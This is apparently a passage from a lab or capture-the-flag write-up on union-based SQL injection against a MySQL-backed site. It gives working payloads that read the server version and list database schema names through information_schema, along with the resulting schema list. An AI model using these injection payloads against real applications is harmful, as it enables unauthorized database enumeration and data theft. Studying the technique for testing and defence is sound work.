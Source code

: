 <figure><img src=".gitbook/assets/image (489).png" alt=""><figcaption></figcaption></figure>

We can see the MySQL version.

`' UNION SELECT @@version,NULL,NULL-- -`&#x20;

<figure><img src=".gitbook/assets/image (490).png" alt=""><figcaption></figcaption></figure>

### DBs /Schema Names&#x20;

{% code overflow="wrap" %}
```sql
' UNION SELECT GROUP_CONCAT(SCHEMA_NAME),NULL,NULL FROM information_schema.SCHEMATA-- -

# information_schema,coupons,mysql,performance_schema,sys,wordpress
```
{% endcode %}
